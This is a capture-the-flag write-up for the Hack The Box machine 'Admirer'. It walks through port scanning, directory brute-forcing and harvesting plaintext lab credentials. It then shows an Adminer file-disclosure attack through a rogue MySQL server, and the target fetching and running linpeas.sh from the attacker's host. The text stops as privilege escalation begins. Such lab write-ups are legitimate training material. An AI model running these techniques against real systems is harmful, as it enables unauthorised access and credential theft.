








---
search:
  exclude: true
---
# Admirer Writeup

## Introduction :

Admirer is an easy/Medium linux box released back in May 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/2 ] [~/HTB/Admirer]
    → nmap -vvv -p- 10.10.10.187 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.187
    Discovered open port 80/tcp on 10.10.10.187
    Discovered open port 21/tcp on 10.10.10.187
    
    [ 10.10.14.13/23 ] [ /dev/pts/2 ] [~/HTB/Admirer]
    → nmap -sCV -p22,80,21 10.10.10.187
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 12:53 CEST
    Nmap scan report for 10.10.10.187
    Host is up (0.035s latency).
    
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
    | ssh-hostkey:
    |   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
    |   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
    |_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    | http-robots.txt: 1 disallowed entry
    |_/admin-dir
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Admirer
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80, so let's investigate it:

basic enumeration on this webpage doesn't give us anything, the /admin-dir directory gives us a 403 forbdiden error as our nmap scan hinted us towards. So let's try to list the other directories on this website using gobuster:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → gobuster dir -u http://10.10.10.187 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 50
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.187
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              php
    [+] Timeout:                 10s
    ===============================================================
    2021/05/31 13:07:07 Starting gobuster in directory enumeration mode
    ===============================================================
    /index.php            (Status: 200) [Size: 6051]
    /assets               (Status: 301) [Size: 313] [--> http://10.10.10.187/assets/]
    /images               (Status: 301) [Size: 313] [--> http://10.10.10.187/images/]
    /server-status        (Status: 403) [Size: 277]
    
    ===============================================================
    2021/05/31 13:13:11 Finished
    ===============================================================
    
    

Now the trick here was not run gobuster from the root of the webserver, but from the **/admin-dir** directory that is supposed to be 403 forbidden.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → gobuster dir -u http://10.10.10.187/admin-dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php -t 50
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.187/admin-dir
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              php
    [+] Timeout:                 10s
    ===============================================================
    2021/05/31 13:14:57 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htaccess            (Status: 403) [Size: 277]
    /.htpasswd            (Status: 403) [Size: 277]
    /.htpasswd.php        (Status: 403) [Size: 277]
    /.hta                 (Status: 403) [Size: 277]
    /.htaccess.php        (Status: 403) [Size: 277]
    /.hta.php             (Status: 403) [Size: 277]
    **/contacts.txt         (Status: 200) [Size: 350]
    /credentials.txt      (Status: 200) [Size: 136]**
    
    ===============================================================
    2021/05/31 13:15:07 Finished
    ===============================================================
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → curl http://10.10.10.187/robots.txt
    User-agent: *
    
    # This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
    Disallow: /admin-dir
    
    

And here we see that we have been able to get access to 2 textfiles that, according to robots.txt wasn't possible to access, but it was! so let's see what we got:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → curl http://10.10.10.187/admin-dir/contacts.txt
    ##########
    # admins #
    ##########
    # Penny
    Email: p.wise@admirer.htb
    
    
    ##############
    # developers #
    ##############
    # Rajesh
    Email: r.nayyar@admirer.htb
    
    # Amy
    Email: a.bialik@admirer.htb
    
    # Leonard
    Email: l.galecki@admirer.htb
    
    
    
    #############
    # designers #
    #############
    # Howard
    Email: h.helberg@admirer.htb
    
    # Bernadette
    Email: b.rauch@admirer.htb
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → curl http://10.10.10.187/admin-dir/credentials.txt
    [Internal mail account]
    w.cooper@admirer.htb
    fgJr6q#S\W:$P
    
    **[FTP account]
    ftpuser
    %n?4Wz}R$tTF7**
    
    [Wordpress account]
    admin
    w0rdpr3ss01!
    
    

So here we get a few usernames, and with passwords, let's take a look at the ftp service first:

 

we download both files:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → ls -lash
    total 5.1M
    4.0K drwxr-xr-x  2 nothing nothing 4.0K May 31 13:46 .
    4.0K drwxr-xr-x 11 nothing nothing 4.0K May 31 11:40 ..
    4.0K -rw-r--r--  1 nothing nothing 3.4K May 31 13:46 dump.sql
    5.1M -rw-r--r--  1 nothing nothing 5.1M May 31 13:46 html.tar.gz
    

Let's take a look at the sql file we found:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → cat dump.sql
    -- MySQL dump 10.16  Distrib 10.1.41-MariaDB, for debian-linux-gnu (x86_64)
    --
    -- Host: localhost    Database: admirerdb
    -- ------------------------------------------------------
    -- Server version       10.1.41-MariaDB-0+deb9u1
    
    /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
    /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
    /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
    /*!40101 SET NAMES utf8mb4 */;
    /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
    /*!40103 SET TIME_ZONE='+00:00' */;
    /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
    /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
    /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
    /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
    
    --
    -- Table structure for table `items`
    --
    
    DROP TABLE IF EXISTS `items`;
    /*!40101 SET @saved_cs_client     = @@character_set_client */;
    /*!40101 SET character_set_client = utf8 */;
    CREATE TABLE `items` (
      `id` int(11) NOT NULL AUTO_INCREMENT,
      `thumb_path` text NOT NULL,
      `image_path` text NOT NULL,
      `title` text NOT NULL,
      `text` text,
      PRIMARY KEY (`id`)
    ) ENGINE=InnoDB AUTO_INCREMENT=13 DEFAULT CHARSET=utf8mb4;
    /*!40101 SET character_set_client = @saved_cs_client */;
    
    --
    -- Dumping data for table `items`
    --
    
    LOCK TABLES `items` WRITE;
    /*!40000 ALTER TABLE `items` DISABLE KEYS */;
    INSERT INTO `items` VALUES (1,'images/thumbs/thmb_art01.jpg','images/fulls/art01.jpg','Visual Art','A pure showcase of skill and emotion.'),(2,'images/thumbs/thmb_eng02.jpg','images/fulls/eng02.jpg','The Beauty and the Beast','Besides the technology, there is also the eye candy...'),(3,'images/thumbs/thmb_nat01.jpg','images/fulls/nat01.jpg','The uncontrollable lightshow','When the sun decides to play at night.'),(4,'images/thumbs/thmb_arch02.jpg','images/fulls/arch02.jpg','Nearly Monochromatic','One could simply spend hours looking at this indoor square.'),(5,'images/thumbs/thmb_mind01.jpg','images/fulls/mind01.jpg','Way ahead of his time','You probably still use some of his inventions... 500yrs later.'),(6,'images/thumbs/thmb_mus02.jpg','images/fulls/mus02.jpg','The outcomes of complexity','Seriously, listen to Dust in Interstellar\'s OST. Thank me later.'),(7,'images/thumbs/thmb_arch01.jpg','images/fulls/arch01.jpg','Back to basics','And centuries later, we want to go back and live in nature... Sort of.'),(8,'images/thumbs/thmb_mind02.jpg','images/fulls/mind02.jpg','We need him back','He might have been a loner who allegedly slept with a pigeon, but that brain...'),(9,'images/thumbs/thmb_eng01.jpg','images/fulls/eng01.jpg','In the name of Science','Some theories need to be proven.'),(10,'images/thumbs/thmb_mus01.jpg','images/fulls/mus01.jpg','Equal Temperament','Because without him, music would not exist (as we know it today).');
    /*!40000 ALTER TABLE `items` ENABLE KEYS */;
    UNLOCK TABLES;
    /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
    
    /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
    /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
    /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
    /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
    /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
    /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
    /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
    
    -- Dump completed on 2019-12-02 20:24:15
    
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → tar -xvf html.tar.gz
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → tree
    .
    ├── assets
    │   ├── css
    │   │   ├── fontawesome-all.min.css
    │   │   ├── images
    │   │   │   ├── arrow.svg
    │   │   │   ├── close.svg
    │   │   │   └── spinner.svg
    │   │   ├── main.css
    │   │   └── noscript.css
    │   ├── js
    │   │   ├── breakpoints.min.js
    │   │   ├── browser.min.js
    │   │   ├── jquery.min.js
    │   │   ├── jquery.poptrox.min.js
    │   │   ├── main.js
    │   │   └── util.js
    │   ├── sass
    │   │   ├── base
    │   │   │   ├── _page.scss
    │   │   │   ├── _reset.scss
    │   │   │   └── _typography.scss
    │   │   ├── components
    │   │   │   ├── _actions.scss
    │   │   │   ├── _button.scss
    │   │   │   ├── _form.scss
    │   │   │   ├── _icon.scss
    │   │   │   ├── _icons.scss
    │   │   │   ├── _list.scss
    │   │   │   ├── _panel.scss
    │   │   │   ├── _poptrox-popup.scss
    │   │   │   └── _table.scss
    │   │   ├── layout
    │   │   │   ├── _footer.scss
    │   │   │   ├── _header.scss
    │   │   │   ├── _main.scss
    │   │   │   └── _wrapper.scss
    │   │   ├── libs
    │   │   │   ├── _breakpoints.scss
    │   │   │   ├── _functions.scss
    │   │   │   ├── _mixins.scss
    │   │   │   ├── _vars.scss
    │   │   │   └── _vendor.scss
    │   │   ├── main.scss
    │   │   └── noscript.scss
    │   └── webfonts
    │       ├── fa-brands-400.eot
    │       ├── fa-brands-400.svg
    │       ├── fa-brands-400.ttf
    │       ├── fa-brands-400.woff
    │       ├── fa-brands-400.woff2
    │       ├── fa-regular-400.eot
    │       ├── fa-regular-400.svg
    │       ├── fa-regular-400.ttf
    │       ├── fa-regular-400.woff
    │       ├── fa-regular-400.woff2
    │       ├── fa-solid-900.eot
    │       ├── fa-solid-900.svg
    │       ├── fa-solid-900.ttf
    │       ├── fa-solid-900.woff
    │       └── fa-solid-900.woff2
    ├── dump.sql
    ├── html.tar.gz
    ├── images
    │   ├── fulls
    │   │   ├── arch01.jpg
    │   │   ├── arch02.jpg
    │   │   ├── art01.jpg
    │   │   ├── art02.jpg
    │   │   ├── eng01.jpg
    │   │   ├── eng02.jpg
    │   │   ├── mind01.jpg
    │   │   ├── mind02.jpg
    │   │   ├── mus01.jpg
    │   │   ├── mus02.jpg
    │   │   ├── nat01.jpg
    │   │   └── nat02.jpg
    │   └── thumbs
    │       ├── thmb_arch01.jpg
    │       ├── thmb_arch02.jpg
    │       ├── thmb_art01.jpg
    │       ├── thmb_art02.jpg
    │       ├── thmb_eng01.jpg
    │       ├── thmb_eng02.jpg
    │       ├── thmb_mind01.jpg
    │       ├── thmb_mind02.jpg
    │       ├── thmb_mus01.jpg
    │       ├── thmb_mus02.jpg
    │       ├── thmb_nat01.jpg
    │       └── thmb_nat02.jpg
    **├── index.php**
    ├── robots.txt
    ├── utility-scripts
    │   ├── admin_tasks.php
    │   ├── db_admin.php
    │   ├── info.php
    │   └── phptest.php
    └── w4ld0s_s3cr3t_d1r
        ├── contacts.txt
        └── credentials.txt
    
    

We take a look into index.php:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → cat index.php
    
    [...]
    <****?php
    $servername = "localhost";
    $username = "waldo";
    $password = "]F7jLHw:*G>UPrTo}~A"d6b";
    $dbname = "admirerdb";
    
    [...]

We have also found it using grep recursively:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → grep -ir password
    **index.php:                        $password = "]F7jLHw:*G>UPrTo}~A"d6b";**
    index.php:                        $conn = new mysqli($servername, $username, $password, $dbname);
    **utility-scripts/db_admin.php:  $password = "Wh3r3_1s_w4ld0?";**
    utility-scripts/db_admin.php:  $conn = new mysqli($servername, $username, $password);
    assets/css/main.css:    input[type="password"],
    assets/css/main.css:            input[type="password"]:invalid,
    assets/css/main.css:            input[type="password"]:focus,
    assets/css/main.css:    input[type="password"],
    
    [...]
    
    

Here we see yet another password **Wh3r3_1s_w4ld0**

There is also info.php available onto the box: 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → ls -lash utility-scripts
    total 24K
    4.0K drwxr-x--- 2 nothing nothing 4.0K Dec  2  2019 .
    4.0K drwxr-xr-x 6 nothing nothing 4.0K May 31 13:55 ..
    4.0K -rw-r----- 1 nothing nothing 1.8K Dec  2  2019 admin_tasks.php
    4.0K -rw-r----- 1 nothing nothing  401 Dec  1  2019 db_admin.php
    4.0K -rw-r----- 1 nothing nothing   20 Nov 29  2019 info.php
    4.0K -rw-r----- 1 nothing nothing   53 Dec  2  2019 phptest.php
    
    

` 

So now we know that the server is running PHP version 7.0, but let's take a look at adnin_tasks.php:

    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [HTB/Admirer/utility-scripts]
    → cat admin_tasks.php | grep exec
          echo str_replace("\n", "  
    ", shell_exec("/opt/scripts/admin_tasks.sh $task 2>&1"));
    

Which reveals us the admin_tasks.sh bashscript which is in the /opt/ directory so we can't read it's sourcecode yet. Now the trick here was that the utility-scripts directory does have an extra php file, and in order to find it we need to use a bigger wordlist against said directory:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [HTB/Admirer/utility-scripts]
    → gobuster dir -u http://10.10.10.187/utility-scripts/ -w /usr/share/seclists/Discovery/Web-Content/big.txt --extensions php,txt -t 50
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.187/utility-scripts/
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              php,txt
    [+] Timeout:                 10s
    ===============================================================
    2021/05/31 15:49:44 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htaccess.txt        (Status: 403) [Size: 277]
    /.htpasswd            (Status: 403) [Size: 277]
    /.htaccess            (Status: 403) [Size: 277]
    /.htpasswd.txt        (Status: 403) [Size: 277]
    /.htaccess.php        (Status: 403) [Size: 277]
    /.htpasswd.php        (Status: 403) [Size: 277]
    **/adminer.php          (Status: 200) [Size: 4294]**
    /info.php             (Status: 200) [Size: 83771]
    /phptest.php          (Status: 200) [Size: 32]
    
    ===============================================================
    2021/05/31 15:50:38 Finished
    ===============================================================
    
    

Which leads us to the **adminer** php webpage which we didn't see before in the html tar gz file:

    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [HTB/Admirer/utility-scripts]
    → searchsploit adminer
    -------------------------------------------- ---------------------------------
     Exploit Title                              |  Path
    -------------------------------------------- ---------------------------------
    Adminer 4.3.1 - Server-Side Request Forgery | php/webapps/43593.txt
    -------------------------------------------- ---------------------------------
    Shellcodes: No Results
    

now that we know that there is an exploit for this service:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [HTB/Admirer/utility-scripts]
    → cat $(locate 43593.txt)
    
    

But we can also find it [here](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability):

 

Looking at this blogpost, we already found adminer.php on the system, and what's left to do is to create our own malicious MySQL server since external connections should be possible. So let's try it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → sudo apt install mariadb-server mariadb-client
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → sudo systemctl start mariadb
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Admirer]
    → mysql -u root -p
    Enter password:
    ERROR 1698 (28000): Access denied for user 'root'@'localhost'
    

That's because you need to be the root user to setup mysql:
    
    
    ┌──(root💀nowhere)-[~]
    └─# mysql -u root -p
    Enter password:
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 57
    Server version: 10.5.9-MariaDB-1 Debian buildd-unstable
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [(none)]>
    

Now let's setup our database:
    
    
    MariaDB [(none)]> ALTER USER 'root'@'localhost' IDENTIFIED BY 'P@SSW0RD';
    Query OK, 0 rows affected (0.004 sec)
    
    MariaDB [(none)]> CREATE DATABASE backup; USE backup; CREATETABLE backup (name VARCHAR(2000));
    Query OK, 1 row affected (0.000 sec)
    
    MariaDB [backup]> CREATE DATABASE backup; USE backup; CREATE TABLE backup (name VARCHAR(2000));
    ERROR 1007 (HY000): Can't create database 'backup'; database exists
    Database changed
    Query OK, 0 rows affected (0.029 sec)
    
    MariaDB [backup]> CREATE USER 'backup'@'10.10.10.187' IDENTIFIED BY 'P@SSW0RD';
    Query OK, 0 rows affected (0.004 sec)
    
    MariaDB [backup]> GRANT ALL PRIVILEGES ON backup.* TO 'backup'@'10.10.10.187';
    Query OK, 0 rows affected (0.004 sec)
    

once that's done, we make sure that our mysql instance can communicate to our tun0 interface:
    
    
    MariaDB [backup]> exit;
    Bye
    
    ┌──(root💀nowhere)-[~]
    └─# vim /etc/mysql/mariadb.conf.d/50-server.cnf
    
    [...]
    
    bind-address            = 10.10.14.13 # and not 127.0.0.1
    
    [...]
    
    :wq
    
    ┌──(root💀nowhere)-[~]
    └─# systemctl restart mariadb
    

Once we restarted mariadb we see that we can see that our mysql port is up and running for our htb ip: 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Admirer]
    → nmap -p 3306 10.10.14.13
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 17:58 CEST
    Nmap scan report for 10.10.14.13
    Host is up (0.000050s latency).
    
    PORT     STATE SERVICE
    3306/tcp open  mysql
    
    Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
    
    

` 

After logging in, go to the SQL command pane:

Next step is to make use of the **load data** function to examine files on the machine:
    
    
    load data local infile '../index.php'
    into table backup 
    fields terminated by "/n"
    
    

`  

and now the index.php file got imported into the backup mysql database, so we simply check it's structure to see it's contents:

And we got waldo's credentials ! **waldo: &<****h5b~yK3F#{PaPB &dA;}{H>**, so let's login as waldo via ssh:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Admirer]
    → ssh waldo@10.10.10.187
    The authenticity of host '10.10.10.187 (10.10.10.187)' can't be established.
    ECDSA key fingerprint is SHA256:NSIaytJ0GOq4AaLY0wPFdPsnuw/wBUt2SvaCdiFM8xI.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.187' (ECDSA) to the list of known hosts.
    waldo@10.10.10.187's password:
    Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux
    
    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    You have new mail.
    Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
    waldo@admirer:~$ id
    uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
    waldo@admirer:~$ cat user.txt
    3cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

to privesc to the root user, we first need to run linpeas.sh to enumerate the box:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Admirer]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
    
    [ 10.10.14.13/23 ] [ /dev/pts/51 ] [~/HTB/Admirer]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    waldo@admirer:~$ wget http://10.10.14.13:9090/linpeas.sh -O /tmp/linpeas.sh
    --2021-05-31 19:54:54--  http://10.10.14.13:9090/linpeas.sh
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/linpeas.sh’
    
    /tmp/linpeas.sh                                                   100%[==========================================================================================================================================================>] 333.85K   701KB/s    in 0.5s
    
    2021-05-31 19:54:55 (701 KB/s) - ‘/tmp/linpeas.sh’ saved [341863/341863]
    
    waldo@admirer:~$ chmod +x /tmp/linpeas.sh
    waldo@admirer:~$ /tmp/linpeas.sh
    
    

` 

And searching through it we get hinted towards the **admin_tasks.sh** script we heard of earlier:
    
    
    waldo@admirer:~$ sudo -l
    [sudo] password for waldo:
    Matching Defaults entries for waldo on admirer:
        env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always
    
    User waldo may run the following commands on admirer:
        (ALL) SETENV: /opt/scripts/admin_tasks.sh
    
    

So let's see what it does:
    
    
